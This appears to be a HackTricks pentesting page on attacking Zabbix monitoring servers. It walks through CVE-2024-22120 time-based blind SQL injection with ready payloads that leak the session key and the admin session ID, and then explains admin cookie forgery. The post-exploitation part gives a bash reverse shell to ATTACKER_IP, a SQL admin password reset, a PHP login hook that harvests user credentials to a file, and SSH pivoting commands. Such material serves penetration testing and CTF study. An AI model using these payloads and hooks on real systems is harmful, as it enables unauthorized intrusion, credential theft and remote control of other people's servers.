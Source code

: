 # Zabbix Security

{{#include ../../banners/hacktricks-training.md}}

## Overview

Zabbix is a monitoring platform exposing a web UI (typically behind Apache/Nginx) and a server component that also talks the Zabbix protocol on TCP/10051 (server/trapper) and agent on TCP/10050. During engagements you may encounter:

- Web UI: HTTP(S) virtual host like zabbix.example.tld
- Zabbix server port: 10051/tcp (JSON over a ZBXD header framing)
- Zabbix agent port: 10050/tcp

Useful cookie format: zbx_session is Base64 of a compact JSON object that includes at least sessionid, serverCheckResult, serverCheckTime and sign. The sign is an HMAC of the JSON payload.

## zbx_session cookie internals

Recent Zabbix versions compute the cookie like:

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Final cookie: Base64(JSON_with_sign)

If you can recover the global session_key and a valid admin sessionid, you can forge a valid Admin cookie offline and authenticate to the UI.

## CVE-2024-22120 — Time-based blind SQLi in Zabbix Server audit log

Affected versions (as publicly documented):

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

Vulnerability summary:

- When a Script execution is recorded into the Zabbix Server audit log, the clientip field is not sanitized and is concatenated into SQL, enabling time-based blind SQLi via the server component.
- This is exploitable by sending a crafted "command" request to the Zabbix server port 10051 with a valid low-privileged sessionid, a hostid the user can access, and a permitted scriptid.

Preconditions and discovery tips:

- sessionid: From guest/login in the web UI, decode zbx_session (Base64) to get sessionid.
- hostid: Observe via web UI requests (e.g., Monitoring → Hosts) or intercept with a proxy; common default is 10084.
- scriptid: Only scripts permitted to the current role will execute; verify by inspecting the script menu/AJAX responses. Defaults like 1 or 2 are often allowed; 3 may be denied.

### Exploitation flow

1) Trigger audit insert with SQLi in clientip

- Connect to TCP/10051 and send a Zabbix framed message with request="command" including sid, hostid, scriptid, and clientip set to a SQL expression that will be concatenated by the server and evaluated.

Minimal message (JSON body) fields:

```json
{
  "request": "command",
  "sid": "<low-priv-sessionid>",
  "scriptid": "1",
  "clientip": "' + (SQL_PAYLOAD) + '",
  "hostid": "10084"
}
```

The full wire format is: "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON. You can use pwntools or your own socket code to frame it.

2) Time-bruteforce secrets via conditional sleep

Use conditional expressions to leak hex-encoded secrets 1 char at a time by measuring response time. Examples that have worked in practice:

- Leak global session_key from config:

```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```

- Leak Admin session_id (userid=1) from sessions:

```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```

Notes:

- charset: 32 hex chars [0-9a-f]
- Pick T_TRUE >> T_FALSE (e.g., 10 vs 1) and measure wall-clock per attempt
- Ensure your scriptid is actually authorized for the user; otherwise no audit row is produced and timing won’t work

3) Forge Admin cookie

Once you have:

- session_key: 32-hex from config.session_key
- admin_sessionid: 32-hex from sessions.sessionid for userid=1

Compute:

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

Set the cookie zbx_session to this value and GET /zabbix.php?action=dashboard.view to validate Admin access.

### Ready-made tooling

- Public PoC automates: bruteforce of session_key and admin sessionid, and cookie forging; requires pwntools and requests.
- Parameters to provide typically include: --ip (FQDN of UI), --port 10051, --sid (low-priv), --hostid, and optionally a known --admin-sid to skip brute.

## RCE via Script execution (post-Admin)

With Admin access in the UI, you can execute predefined Scripts against monitored hosts. If agents/hosts execute script commands locally, this yields code execution on those systems (often as the zabbix user on Linux hosts):

- Quick check: run id to confirm user context
- Reverse shell example:

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```

TTY upgrade (Linux):

```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```

If you have DB access, an alternative to forging a cookie is resetting the Admin password to the documented bcrypt for "zabbix":

```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```

## Credential capture via login hook (post-exploitation)

If file write is possible on the web UI server, you can temporarily add a logging snippet to /usr/share/zabbix/index.php around the form-based login branch to capture credentials:

```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
  $user = $_POST['name'] ?? '??';
  $password = $_POST['password'] ?? '??';
  $f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
  CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```

Users authenticate normally; read /dev/shm/creds.txt afterwards. Remove the hook when done.

## Pivoting to internal services

Even if the service account shell is /usr/sbin/nologin, adding an SSH authorized_keys entry and using -N -L allows local port-forwarding to loopback-only services (e.g., CI/CD at 8111):

```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```

See more tunneling patterns in: Check [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md).

## Operational tips

- Validate scriptid is permitted for the current role (guest may have a limited set)
- Timing brute can be slow; cache recovered admin sessionid and reuse it
- The JSON sent to 10051 must be framed with the ZBXD\x01 header and a little-endian length

## References

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

{{#include ../../banners/hacktricks-training.md}}
